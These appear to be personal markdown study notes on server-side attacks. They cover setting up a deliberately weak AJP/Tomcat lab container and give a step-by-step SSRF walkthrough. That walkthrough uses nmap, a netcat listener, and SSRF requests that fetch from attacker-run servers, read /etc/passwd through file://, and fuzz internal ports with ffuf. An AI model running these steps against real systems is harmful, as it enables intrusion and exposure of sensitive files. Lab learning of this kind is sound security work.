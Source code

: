 # Server side attacks

Intro - bunch of stuff on diferent server side attacks based on binary protocol or other

## Abusing Intermediary Applications - AJP / Tomcat
Port `8009`

To replicate a vulnerable environment, first create a file of `tomcat-users.xml`
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

Then spawn:
```bash
sudo apt install docker.io
sudo docker run -it --rm -p 8009:8009 -v `pwd`/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml --name tomcat "tomcat:8.0"
```


Second part of replicating the steps was easy once running on your own kali box from `https://www.kali.org/get-kali/#kali-virtual-machines`. With the following changes:
1. 8Gb RAM, 4 Cores, Bridged network adapter. 
2. (In vm when running) Apple macintosh laptop keyboard layout & UK Lang setting


Third part was steps on how to do the same with apache (& stop the previous nginx server)


## Server-Side Request Forgery (SSRF)



### Exploitation example
1. Uses nmap on the target with flags `-sT -T5 --min-rate=10000 -p-` which gives 3 ports. 
2. Use curl with `-i -s` to see a resp. Then again with the `-L` to follow the redirect (shows the second HTTP response).
3. New tab listening on port 8080 with `-nvlp` and get our IP to supply in next req:
4. `curl -i -s http://$TAREGT_IP/load?q=http://$TUN_ID:8080` missed the http:// in the go. The user agent is Python-urllib/3.8 
5. Created file index.html and started a HTTP server with `python3 -m http.server 9090`
6. In new tab started a FTP server with:
	```bash
	sudo pip3 install twisted
	sudo python3 -m twisted ftp -p 21 -r .
	```
7. ran `curl -i -s -L http://$TARGET_IP/load?q=ftp://$TUN_ID/index.html` and got the contents.
8. ran `curl -i -s -L http://$TARGET_IP/load?q=http://$TUN_ID:9090/index.html` and got the contents
9. ran `curl -i -s -L http://$TARGET_IP/load?q=file:///etc/passwd` and got same
10. Make a wordlist of ports:
	```bash
	for port in {1..65535};do echo $port >> ports.txt;done
	```
11. fuzz with fuff `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30` got ports `80` and `5000`. cURL'd the 5000 one. filters on response size 30
